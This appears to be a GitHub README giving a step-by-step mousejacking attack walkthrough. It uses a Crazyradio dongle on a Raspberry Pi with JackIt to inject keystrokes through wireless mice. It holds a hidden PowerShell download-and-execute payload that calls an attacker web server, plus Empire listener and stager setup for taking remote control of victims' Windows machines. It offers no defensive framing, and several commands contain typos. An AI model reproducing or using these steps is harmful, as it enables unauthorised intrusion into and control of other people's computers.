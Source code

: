 ### MOUSE JACKING 

## REQUIREMENTS :-

crazy radio PA usb adapter (chip nRF 24L)

=> MINI RASPBERRY PI 0

=> 3.5/3.7 v BATTERY

## GITHUB LINK :->

https://github.com/insecurityofthings/jackit

## RASPBERRY PI COMMANDS :=>

Step 1 :->  sudo apt-get update

Step 2 :->  sudo apt-get upgrade

Step 3 :->  sudo apt-get install sdcc binutils python python-pip git openssh-server

Step 4 :->  pip install -U pip

Step 5 :->  pip install -U -I pyusb

Step 6 :->  pip install -U platformio

Step 7 :->  gitclone https://github.com/BastilleResearch/nrf-research-firmware

Step 8 :->  cd nrf-research-firmware

Step 9 :->  ls

Step 10 :->  sudo make

Step 11 :->  connect usb dongle to raspberry pi 

Step 12 :->  type => sudo make install

Step 13 :->  gitclone https://github.com/insecurityofthings/jackit.git

Step 14 :->  cd..

Step 15 :->  cd jackit

Step 16 :->  cat requirements.txt

Step 17 :->  sudo pip install -r requirements.txt

Step 18 :->  cd nrf-research-firmware

Step 19 :->  cd tools

Step 20 :->  cd jackit

Step 21 :->  sudo touch pspwn

Step 22 :->  sudo vi pspwn

Step 23 :->  GUI r

Step 24 :->  DELAY 200

Step 25 :->  STRING powershell -W Hidden -nop -noni -c "IEX (New-Object Net.Webclient).downloadstring(http://apachewebserverIP/filename')"     ((EXAMPLE FOR THIS =>> HTTP://192.168.0.0/PSPWN))  

Step 26 :->  enter  =>>  PRESS ESC  =>>  TYPE wq:!  =>>  press ENTER (to save the file)



### to search the listner :=>> 



Step 27 :->  sudo python nrf24-scanner.py -L

Step 28 :->  CTRL + C



## USING EMPIRE IN KALI-LINUX ATTACKER MACHINE



Step 29 :->  sudo apt-get update

Step 30 :->  sudo apt-get upgrade

Step 31 :->  sudo apt-get install -y git apache2 python-pip python-dev python-m2crypto swig

Step 32 :->  sudo pip install pycrypto iptools pydispatcher flask

Step 33 :->  sudo git clone https://github.com/powershellEmprie/Empire.git

Step 34 :->  cd Empire/setup

Step 35 :->  sudo ./install.sh

Step 36 :->  enter

Step 37 :->  cd..

Step 38 :->  cd ./Empire

Step 39 :->  listeners

Step 40 :->  info

Step 41 :->  set name filename(example pspwn)

Step 42 :->  set host http://apachewebserverIP ADDRESS:8080

Step 43 :->  execute

Step 44 :->  list

Step 45 :->  use stager launcher

Step 46 :->  set Listener filename(example pspwm)

Step 47 :->  set Base64 False

Step 48 :->  set Outfile filename.ps1(example pspwn.ps1)

Step 49 :->  generate

Step 50 :->  exit  =>>  ls

Step 51 :->  now copy the file to apache web server folder

Step 52 :->  sudo cp filename.ps1(example pspwn.ps1) /var/www/html/name of the file(example pspwn)

Step 53 :->  sudo ./Empire



## JACKIT TERMINAL 



Step 54 :->  sudo python jackit.py --script pspwn 

Step 55 :->  cntrl + C

Step 56 :->  enter the key no of the mouse targets on the screen for example 1 ,2 ,3.



## KALI LINUX EMPIRE TERMINAL



Step 57 :->  agents

Step 58 :->  interact agentname

Step 59 :->  ls

Step 60 :->  getpid

Step 61 :->  getuid

Step 60 :->  cd c:\Users\ (to run powershell service) 





